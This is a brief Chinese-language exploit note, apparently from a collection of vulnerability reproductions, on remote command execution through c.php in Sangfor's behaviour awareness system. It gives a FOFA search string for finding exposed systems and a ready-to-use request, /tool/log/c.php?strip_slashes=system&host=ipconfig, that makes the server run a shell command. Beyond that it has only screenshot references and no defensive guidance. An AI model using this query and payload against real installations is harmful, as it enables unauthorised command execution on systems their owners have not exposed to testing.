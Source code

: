 # 深信服-行为感知系统-c.php-远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 行为感知系统

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"	

## 漏洞复现

登录页面如下

![image-20210531194638650](深信服-行为感知系统-c.php-远程命令执行漏洞.assets/1627363090614484.jpg)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531194727866](深信服-行为感知系统-c.php-远程命令执行漏洞.assets/1627363090896502.jpg)
